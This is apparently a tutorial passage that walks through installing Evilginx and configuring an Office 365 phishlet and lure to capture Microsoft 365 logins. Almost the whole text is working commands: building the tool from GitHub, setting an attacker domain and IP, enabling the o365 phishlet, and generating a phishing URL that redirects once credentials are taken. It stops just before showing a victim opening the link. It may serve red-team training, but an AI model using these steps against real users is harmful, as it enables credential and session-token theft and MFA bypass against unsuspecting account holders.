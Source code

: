 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.

sudo apt update 
sudo apt install wget -y

Next, let’s download the Go installation files.
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz

Install Go by executing the following command:
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/

Next, configure the PATH environment variable by running:
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh

Execute the following commands to clone the source files from GitHub:
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make

After completing the cloning process, we can proceed to install Evilginx globally and run it.
sudo make install 
sudo evilginx

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242

config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth

Next, let’s configure the Office 365 phishlet to match our domain.
phishlets hostname o365 <yourdomain> 
phishlets enable o365

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.

lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link 




